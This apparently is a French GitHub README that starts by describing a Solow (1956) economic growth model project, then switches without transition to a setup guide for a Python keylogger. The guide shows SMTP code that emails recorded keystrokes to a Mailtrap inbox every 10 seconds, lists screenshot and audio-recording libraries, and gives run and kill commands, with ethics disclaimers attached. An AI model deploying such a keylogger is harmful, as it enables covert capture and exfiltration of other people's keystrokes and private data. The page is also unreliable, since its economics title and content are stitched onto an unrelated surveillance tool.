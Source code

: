 # Economic_Model_Solow1
Solow model (1956)







***

Ce projet est consiste à effecuer une modélisation du modèle de croissance économique néoclassique. 
Basé sur le modèle de Solow (1956), cette simulation permet l'explication de la dynamique de la production en fonction du capital, du travail et du progrès technologique.

Il y a plusieurs options :

- Trajectoire de la croissance économique en fonction du capital et du travail.
- Effet d’une variation du taux d’épargne sur le niveau de production.
- Impact du progrès technologique sur la croissance à long terme.
- Analyse de la convergence entre pays (les pays pauvres rattrapent-ils les riches ?


L’équation de base du modèle de Solow est la suivante :


![Equation de base de Solow model](images/1.png)






Ce projet a ete realise a des fins academiques. L'utilisation de logiciels tels qu'un keylogger doit toujours respecter les lois et l ethique.

**Ne pas utiliser ce script a des fins d'enregistrement de frappes sur l'ordinateur d'autrui (ou sur le votre en ciblant un autre utilisateur) sans le consentement explicite de ce dernier.**

**Ne testez jamais un keylogger sur une machine ou vous n avez pas la permission explicite de le faire.**

**Veuillez utilisez ce script dans un environnement securise (par exemple, une machine virtuelle ou un ordinateur de test), controle et legalement acceptable.**

**Utilisez un compte SMTP dedie et ne partagez jamais vos informations personnelles.**




**Ce script permet d'enregistrer les frappes de clavier. Ces informations recueillies sont envoyees a une boite mail toutes les 10 secondes.**



*Etape 1 : Definir les identifiants SMTP*

Le protocole SMTP (Simple Mail Transfer Protocol) est utilise pour envoyer des e-mails.
Un moyen mnemotechnique de retenir sa definition est : SMTP <=> Send mail to people


La premiere etape va donc etre de creer un compte mail dedie a la reception des informations enregistrees avec le keylogger.

Nous avons fait le choix du systeme de messagerie "Mail trap". Apres avoir cree un compte avec des donnees jetables, nous devons configurer les identifiants SMTP dans le script.

Ouvrez le fichier qui se nomme "Keylogger.py" dans un editeur de texte comme VSCode ou Notepad++.

Cherchez les lignes o "SMTP_USERNAME" et "SMTP_PASSWORD" sont mentionnes.

Remplacez-les par vos propres informations :

Dans cette section, nous allons definir l'adresse mail ainsi que le mot de passe mail :

finally:
    EMAIL_ADDRESS = "xxxxxx" #Remplacer par le "username" de Mailtrap
    EMAIL_PASSWORD = "xxxxxx" #Remplacer par le "password" de Mailtrap

![information sur le mail](images/infos_mail.png)



Dans cette section, nous allons entrer le numero du port SMTP, nous permettant d'envoyer les informations enregistres vers la boite de reception.

m += message
	with smtplib.SMTP("sandbox.smtp.mailtrap.io", 25) as server: # Mettre le numero de port defini dans les instructions Mailtrap
        server.login(email, password)
        server.sendmail(sender, receiver, message)

Ainsi, le port numero 25 est defini. 

![information SMTP](images/smtp_screenshot.png)



*Etape 2 : Installer les dependances necessaires*

Depuis le terminal, on va lancer la commande pip install -r requirements.txt

Cette commande permet d'installer toutes les bibliotheques listees dans le fichier requirements.txt

Ce fichier contient les lignes suivantes :

pynput==1.7.3 : controler et surveiller le clavier et la souris
pyscreenshot==3.1 : prendre des captures d'ecran
sounddevice==0.4.3 : gerer l'enregistrement de sons
Pillow==9.3.0 : bibliotheque de traitement d'images



*Etape 3 : Executer le keylogger*

Toujours depuis le terminal, on lance le script depuis le fichier keylogger.py

On lance la commande python keylogger.py

Le script commence alors a enregistrer les frappes de claviers

Les donnees sont envoyees toutes les 10 secondes dans la boite de reception.




En cas d'erreur :

Il pourrait y avoir une probleme avec le paquet pyscreenshot lors de son installation

L'erreur pourrait par exemple liee a une incompatibilite entre la version de pyscreenshot demandee (0.5.1) et votre environnement Python

Pour resoudre ce probleme

Modifier la ligne pyscreenshot==0.5.1

par

pyscreenshot==[derniere version en vigueur]

A la date du 15/11/2024, la derniere version utilisee pour pyscreenshot est : 3.1

Si vous rencontrez encore des erreurs, ajustez les versions jusqu'a ce que toutes soient compatibles avec votre version de Python

Vous pourriez par exemple avoir des problemes d'incompatibilite entre votre version de Python et la version de Pillow



Correspondances pillow et python : site internet : https://pillow.readthedocs.io/en/stable/installation/python-support.html


![information Ssur les compatibilites entre pillow et python](images/correspondances_versions_pillow_python.png)


![information Ssur les compatibilites entre pillow et python](images/correspondances_versions_pillow_python1.png)


**Pour arreter le keylogger** :

Il fonctionne en arriere-plan comme un processus. Afin de l'arreter, entrer dans le terminal : Ctrl + C

Si cela ne fonctionne pas, entrer dans le terminal :

tasklist | findstr python

Cela permettra d'afficher tous les processus Python qui sont actifs. Il suffit ensuite d'identifier le PID associe au script.

**Pour l'arreter, entrer dans le terminal :**

taskkill /PID [PID du script] /F

Enfin, si le keylogger enregistre les frappes de clavier dans un fichier temporaire, supprimer ce fichier.
